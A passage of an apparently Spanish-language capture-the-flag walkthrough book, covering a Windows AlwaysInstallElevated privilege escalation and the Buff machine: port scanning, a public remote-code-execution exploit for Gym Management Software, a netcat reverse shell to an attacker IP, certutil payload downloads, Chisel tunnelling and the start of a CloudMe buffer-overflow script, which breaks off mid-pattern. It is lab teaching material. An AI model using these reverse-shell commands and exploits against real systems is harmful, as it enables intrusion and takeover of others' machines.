\begin{Highlighting}[]
\ExtensionTok{certutil.exe}\NormalTok{ -f -urlcache -split http://10.10.14.8/winPEASexe.exe winPEAS.exe}
\ExtensionTok{winPEAS.exe}
\end{Highlighting}
\end{Shaded}

Vemos algo interressante en Checking AlwaysInstallElevated

\begin{figure}

\includegraphics[width=0.9\linewidth]{images/love-hklm-hkcu} \caption{privesc hklm hkcu vuln}\label{fig:unnamed-chunk-35}
\end{figure}

Podemos seguir los passos descripto en el link \url{https://book.hacktricks.xyz/windows/windows-local-privilege-escalation\#alwaysinstallelevated}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  crear un msi mallicioso con msfvenom

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msfvenom}\NormalTok{ -p windows/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -f msi -o reverse.msi}
\end{Highlighting}
\end{Shaded}
\item
  lo enviamos a la maquina victima con el servidor http de python
\item
  nos ponemos en escucha por el puerto 443
\item
  lo ejecutamos desde la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msiexec}\NormalTok{ /quiet /qn /i reverse.msi}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Ya estamos a dentro con el usuario nt authority\system y podemos ver la flag.

\hypertarget{buff}{%
\chapter*{Buff}\label{buff}}
\addcontentsline{toc}{chapter}{Buff}

\hypertarget{introduccion-16}{%
\section*{Introduccion}\label{introduccion-16}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 09/08/2021 se llama Buff
.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=8UZcKNFgt-M}{\includegraphics{https://img.youtube.com/vi/8UZcKNFgt-M/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{requirements}{%
\section*{Requirements}\label{requirements}}
\addcontentsline{toc}{section}{Requirements}

Este video toca un BufferOverflow de typo OSCP. Necessitareis tener:

\begin{itemize}
\tightlist
\item
  Una maquina windows7 32 bits
\item
  El Deb de la maquina esta desabilitado
\item
  Immunity debugger con el mona installado
\end{itemize}

\hypertarget{enumeracion-16}{%
\section*{Enumeracion}\label{enumeracion-16}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-16}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-16}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-16}{%
\subsubsection*{Ping}\label{ping-16}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.198}
\end{Highlighting}
\end{Shaded}

ttl: 127 -\textgreater{} maquina Windows

\hypertarget{nmap-16}{%
\subsubsection*{Nmap}\label{nmap-16}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.198}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.198 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p8080,7680 10.10.10.198 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
7680 & http & Web, fuzzing &\tabularnewline
8080 & http & Web, fuzzing &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-la-web-3}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-3}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-11}{%
\subsubsection*{Whatweb}\label{whatweb-11}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.198:8080}
\end{Highlighting}
\end{Shaded}

Nada muy interressante aqui

\hypertarget{checkear-la-web-el-puerto-8080}{%
\subsubsection*{Checkear la web el puerto 8080}\label{checkear-la-web-el-puerto-8080}}
\addcontentsline{toc}{subsubsection}{Checkear la web el puerto 8080}

\begin{itemize}
\item
  Vemos que hay un panel de inicio de session
\item
  El Wappalizer no nos dice nada
\item
  Hay unos cuantos links

  \begin{enumerate}
  \def\labelenumi{\arabic{enumi}.}
  \tightlist
  \item
    Packages
  \item
    Facilities
  \item
    About
  \item
    Contact
  \end{enumerate}
\item
  En packages vemos un usuario potencial \textbf{mrb3n}
\item
  Vemos que las extensiones de los ficheros son php
\item
  Si pinchamos en Contact vemos que la web a sido echa con \textbf{Gym Management Software 1.0}
\end{itemize}

Vamos a ver si encontramos algo interressante con Gym Management Software 1.0

\hypertarget{vulnerability-assessment-3}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-3}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{buscamos-exploit-para-gym-management-software}{%
\subsection*{Buscamos exploit para Gym Management Software}\label{buscamos-exploit-para-gym-management-software}}
\addcontentsline{toc}{subsection}{Buscamos exploit para Gym Management Software}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ Gym Management}
\end{Highlighting}
\end{Shaded}

Aqui vemos varias cosas

\begin{itemize}
\tightlist
\item
  SQL Injection
\item
  Authentication Bypass
\item
  Stored Cross Site Scripting
\item
  Unauthenticated Remote Code Execution
\end{itemize}

Vamos a ver el script en python para el Unauthenticated Remote Code Execution

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ content}
\ExtensionTok{searchsploit}\NormalTok{ -m 48506 .}
\FunctionTok{mv}\NormalTok{ 48506.py gym_management.py}
\FunctionTok{cat}\NormalTok{ gym_management.py}
\end{Highlighting}
\end{Shaded}

Analyzamos el script y lo comprobamos con firefox al mismo tiempo:

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Ir a la pagina /upload.php que no mirra para una session de usuario authentificado

  \begin{itemize}
  \tightlist
  \item
    \texttt{http://10.10.10.198:8080/upload.php} Nos pone undefined id parameter.
  \end{itemize}
\item
  Ponerle un parametro id en la GET request que appunte en el fichero deseado

  \begin{itemize}
  \tightlist
  \item
    \texttt{http://10.10.10.198:8080/upload.php?id=EEEE} nos hace algo.
  \end{itemize}
\item
  Bypasseamos un archivo con una doble extension. (.php.png)
\item
  Bypasseamos el type check modificando el \textbf{Content-type} del fichero con \texttt{image/png}
\item
  Se pone un codigo malicioso en el body del fichero
\end{enumerate}

Estos passos se pueden facilmente hacer a mano pero aqui vamos a utilizar el proprio exploit.

\hypertarget{vuln-exploit-gaining-access-3}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-3}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{conneccion-por-gym-management}{%
\subsection*{Conneccion por gym management}\label{conneccion-por-gym-management}}
\addcontentsline{toc}{subsection}{Conneccion por gym management}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python}\NormalTok{ gym_management.py http://10.10.10.198:8080/}
\end{Highlighting}
\end{Shaded}

Ya estamos en la maquina victima. Pero estamos con una web shell.

\hypertarget{reverse-shell}{%
\subsection*{Reverse Shell}\label{reverse-shell}}
\addcontentsline{toc}{subsection}{Reverse Shell}

En la maquina de attackante enviamos un nc.exe a la maquina victima para tener una shell interactiva

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{locate}\NormalTok{ nc.exe}
\FunctionTok{cp}\NormalTok{ /opt/SecLists/Web-Shells/FuzzDB/nc.exe .}
\ExtensionTok{python}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}

Con otra terminal, nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rlwrap}\NormalTok{ nc -nlvp 443}
\end{Highlighting}
\end{Shaded}

desde la maquina victima, lo descargamos y lo ejecutamos

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ http://10.10.14.8/nc.exe -o nc.exe}
\ExtensionTok{./nc.exe}\NormalTok{ -e cmd 10.10.14.8 443}
\end{Highlighting}
\end{Shaded}

Si le hacemos un type \texttt{C:\textbackslash{}users\textbackslash{}shaun\textbackslash{}Desktop\textbackslash{}user.txt} podemos ver la flag.

\hypertarget{analyzando-la-maquina}{%
\subsection*{Analyzando la maquina}\label{analyzando-la-maquina}}
\addcontentsline{toc}{subsection}{Analyzando la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}
\FunctionTok{whoami}\NormalTok{ /priv}
\FunctionTok{whoami}\NormalTok{ /all}
\end{Highlighting}
\end{Shaded}

Como no vemos nada interressante aqui, lanzaremos un binario que nos permitta enumerar el systema para
encontrar vias potenciales para escalar privilegios. Vamos a utilizar el \textbf{winpeas}

\hypertarget{analysis-de-vulnerabilidad-privesc-con-winpeas-1}{%
\subsubsection*{Analysis de vulnerabilidad Privesc con WINPEAS}\label{analysis-de-vulnerabilidad-privesc-con-winpeas-1}}
\addcontentsline{toc}{subsubsection}{Analysis de vulnerabilidad Privesc con WINPEAS}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ c:\textbackslash{}Windows\textbackslash{}Temp}
\FunctionTok{mkdir}\NormalTok{ EEEE}
\BuiltInTok{cd}\NormalTok{ EEEE}
\end{Highlighting}
\end{Shaded}

Descargamos el \texttt{winpeasx64.exe} desde \url{https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/binaries/Obfuscated\%20Releases/winPEASx64.exe}.

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ content}
\FunctionTok{cp}\NormalTok{ /home/s4vitar/Descargas/firefox/winPEASx64.exe .}
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}

Lo descargamos desde la maquina victima y lo lanzamos.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{certutil.exe}\NormalTok{ -f -urlcache -split http://10.10.14.8/winPEASexe.exe winPEAS.exe}
\ExtensionTok{winPEAS.exe}
\end{Highlighting}
\end{Shaded}

En la parte \texttt{Searching\ executable\ files\ in\ non-default\ folders\ with\ write\ (equivalent)\ permissions} vemos que
el ususario shaun tiene AllAccess al ejecutable \texttt{C:\textbackslash{}Users\textbackslash{}shaun\textbackslash{}Downloads\textbackslash{}CloudMe\_1112.exe}. Mirando por internet
vemos que CloudMe es un servico que occupa el puerto \textbf{8888}. Lo comprobamos con \texttt{netstat}

A demas buscamos con searchsploit y vemos que este binario es vulnerable a un BufferOverflow.

\hypertarget{bufferoverflow}{%
\section*{BufferOverflow}\label{bufferoverflow}}
\addcontentsline{toc}{section}{BufferOverflow}

Aqui vamos a trabajar principalmente en la maquina windows. Analizando el exploit del BufferOverflow que nos da
searchsploit vemos que podemos descargarnos el binario \texttt{CloudMe\_1112.exe} en el link \texttt{https://www.cloudme.com/downloads/CloudMe\_1112.exe}.
Lo descargamos en la maquina Windows y lo installamos. La installacion es la typica de windows (next, next, next\ldots).

Nos tenemos que crear un usuario y iniciar una session.

Una vez el programma lanzado, podemos comprobar que el servicio corre abriendo un cmd y lanzando el commando \texttt{netstat\ -nat}. Aqui vemos
que el puerto 8888 esta corriendo.

En esta situacion hay que entender que nosotros vamos a utilizar nuestra propria maquina windows como maquina de test. todo los passos siguientes
estaran echo en esta maquina y tendremos que hacerlo de nuevo en la maquina Buff.

\hypertarget{exponer-el-puerto-8888-hacia-fuera}{%
\subsection*{Exponer el puerto 8888 hacia fuera}\label{exponer-el-puerto-8888-hacia-fuera}}
\addcontentsline{toc}{subsection}{Exponer el puerto 8888 hacia fuera}

Como este servicio es interno, el puerto 8888 no esta visible desde el exterior. Aqui utilizaremos \textbf{Chisel.exe} para hacer un port forwarding.
Descargamos manualmente \textbf{Chisel y 7zip}.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En la maquina de attackante

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/jpillora/chisel}
\BuiltInTok{cd}\NormalTok{ chisel}
\ExtensionTok{go}\NormalTok{ build -ldflags }\StringTok{"-w -s"}\NormalTok{ .}
\ExtensionTok{upx}\NormalTok{ chisel}
\FunctionTok{chmod}\NormalTok{ +x chisel}
\ExtensionTok{./chisel}\NormalTok{ server --reverse --port 1234}
\end{Highlighting}
\end{Shaded}
\item
  En la maquina Windows

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{./chisel.exe}\NormalTok{ client 192.168.0.16:1234 R:8888:127.0.0.1:8888}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

\hypertarget{script-en-pyton-para-ejecutar-el-bufferoverflow}{%
\subsection*{Script en pyton para ejecutar el BufferOverflow}\label{script-en-pyton-para-ejecutar-el-bufferoverflow}}
\addcontentsline{toc}{subsection}{Script en pyton para ejecutar el BufferOverflow}

En la maquina de atacante, nos creamos un script en python que nos permitte ejecutar el BufferOverflow. Este Script ira evolucionando
durante las etapas.

\hypertarget{etapa-1-denial-of-service}{%
\subsubsection*{Etapa 1 : Denial Of Service}\label{etapa-1-denial-of-service}}
\addcontentsline{toc}{subsubsection}{Etapa 1 : Denial Of Service}

El BufferOverflow viene de un error de sanitizacion durante el envio de una data que se espera a recivir un tamanio definido de data y sobre el
cual si un atcante decide enviarle mas data de lo previsto, hace petar el servicio. En el siguiente script vamos a enviar al servicio unas 5000 \textbf{A}
de data para ver si el servicio cae.

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}

\ImportTok{import}\NormalTok{ socket}
\ImportTok{import}\NormalTok{ signal}
\ImportTok{import}\NormalTok{ pdb}
\ImportTok{import}\NormalTok{ sys}
\ImportTok{import}\NormalTok{ time}

\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}
\ImportTok{from}\NormalTok{ struct }\ImportTok{import}\NormalTok{ pack}

\CommentTok{# Variables globales}
\NormalTok{remoteAddress }\OperatorTok{=} \StringTok{"127.0.0.1"}

\KeywordTok{def}\NormalTok{ executeExploit():}
\NormalTok{    payload }\OperatorTok{=}\NormalTok{ b}\StringTok{"A"} \OperatorTok{*} \DecValTok{5000}

\NormalTok{    s }\OperatorTok{=}\NormalTok{ socket.socket(socket.AF_INET, socket.SOCK_STREAM)}
\NormalTok{    s.}\ExtensionTok{connect}\NormalTok{((remoteAddress, }\DecValTok{8888}\NormalTok{))}
\NormalTok{    s.send(payload)}

\ControlFlowTok{if} \VariableTok{__name__} \OperatorTok{==} \StringTok{"__main__"}\NormalTok{:}
\NormalTok{    executeExploit()}
\end{Highlighting}
\end{Shaded}

Ejecutando el script vemos que el CloudMe para de functionnar el la maquina Windows.

\begin{figure}

\includegraphics[width=0.9\linewidth]{images/Buff-DOS} \caption{BufferOverflow DOS}\label{fig:unnamed-chunk-36}
\end{figure}

\hypertarget{etapa-2-analizando-lo-que-pasa-con-immunity-debugger}{%
\subsubsection*{Etapa 2 : Analizando lo que pasa con Immunity Debugger}\label{etapa-2-analizando-lo-que-pasa-con-immunity-debugger}}
\addcontentsline{toc}{subsubsection}{Etapa 2 : Analizando lo que pasa con Immunity Debugger}

En la maquina windows, arrancamos otra vez el servicio CloudMe y nos abrimos el Immunity Debugger.

Pinchamos en el menu File del Immunity Debugger a attach y seleccionamos el servicio CloudMe

\begin{figure}

\includegraphics[width=0.9\linewidth]{images/Buff-ID_attach} \caption{BufferOverflow Attach service}\label{fig:unnamed-chunk-37}
\end{figure}

Cuando lo lanzamos siempre nos va a poner el servicio en \emph{PAUSED} y tenemos que darle al boton \emph{PLAY}.

Desde la maquina victima lanzamos otra vez el exploit para ver lo que pasa.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ exploit.py}
\end{Highlighting}
\end{Shaded}

En el Immunity debugger podemos ver que se a vuelto a PAUSEAR y en la ventanita Registers (FPU) que hay cossas turbias.

\hypertarget{explicacion-del-stack}{%
\paragraph{Explicacion del stack}\label{explicacion-del-stack}}
\addcontentsline{toc}{paragraph}{Explicacion del stack}

\begin{figure}

\includegraphics[width=0.9\linewidth]{images/Buff-stack_explanation} \caption{BufferOverflow explicacion stack}\label{fig:unnamed-chunk-38}
\end{figure}

En el graphico vemos las \textbf{A} que es lo que suele passar cuando le enviamos data al programma, en este casso \textbf{A}. Si el buffer
definido no esta sanitizado correctamente y que le enviamos mas \textbf{A} de lo previsto, las \textbf{A} van subiendo hasta que sobre escriba
registros como el \textbf{EBP} y el \textbf{RET tambien llamado EIP}. Lo podemos ver en el Immunity Debugger aqui.

\begin{figure}

\includegraphics[width=0.9\linewidth]{images/Buff-As} \caption{BufferOverflow overflow with A}\label{fig:unnamed-chunk-39}
\end{figure}

Aqui se puede ver un monton de ``41414141'' que 41 es el valor Hexadecimal ASCII de la lettra A.

Lo critico aqui es cuando el atacante toma el control del \textbf{EIP (RET)} porque el \textbf{EIP} define donde appunta la siguiente instruccion a
ejecutar. En el caso de las \textbf{A}, el programma cuando llega al EIP piensa que la siguiente instruccion que hay que ejecutar se encuentra en
la Memory Address 0x41414141 (porque la hemos sobre escrito), y claro como esta direccion no existe hace que el programma pete.

\hypertarget{etapa-3-sobre-escribir-el-eip}{%
\subsubsection*{Etapa 3: Sobre escribir el EIP}\label{etapa-3-sobre-escribir-el-eip}}
\addcontentsline{toc}{subsubsection}{Etapa 3: Sobre escribir el EIP}

Como atacante, ahora tenemos que saver cuantas \textbf{A} tenemos que meter para sobre escribir el \textbf{EIP} con el valor que nosotros queremos meter.
La technica para que sea visual seria ponerl 0x42424242 al EIP que serian cuatro vecez la lettra \textbf{B}.

Hay una utlidad que nos permitte crear un pattern de caracteres aleatorios para encontrar mas facilmente donde se encuentra el EIP o mejor dicho cuantas \textbf{A}
tengo que poner antes de ponerle las \textbf{B}.

En la maquina de atacante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{/usr/share/metasploit-framework/tools/exploit/pattern_create.rb}\NormalTok{ -l 5000}
\end{Highlighting}
\end{Shaded}

esto lo podemos copiar y ponerlo en nuestro exploit.

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}

\ImportTok{import}\NormalTok{ socket}
\ImportTok{import}\NormalTok{ signal}
\ImportTok{import}\NormalTok{ pdb}
\ImportTok{import}\NormalTok{ sys}
\ImportTok{import}\NormalTok{ time}

\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}
\ImportTok{from}\NormalTok{ struct }\ImportTok{import}\NormalTok{ pack}

\CommentTok{# Variables globales}
\NormalTok{remoteAddress }\OperatorTok{=} \StringTok{"127.0.0.1"}

\KeywordTok{def}\NormalTok{ executeExploit():}
\NormalTok{    payload }\OperatorTok{=}\NormalTok{ b}\StringTok{"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7A}
\StringTok{    e8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak}
\StringTok{    0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2}
\StringTok{    Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4A}
\StringTok{    u5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az}
\StringTok{    7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9}
\StringTok{    Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1B}
\StringTok{    k2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp}
\StringTok{    4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6}
\StringTok{    Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8B}
\StringTok{    z9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf}
\StringTok{    1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3}
\StringTok{    Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5C}
\StringTok{    p6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu}
\StringTok{    8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0}
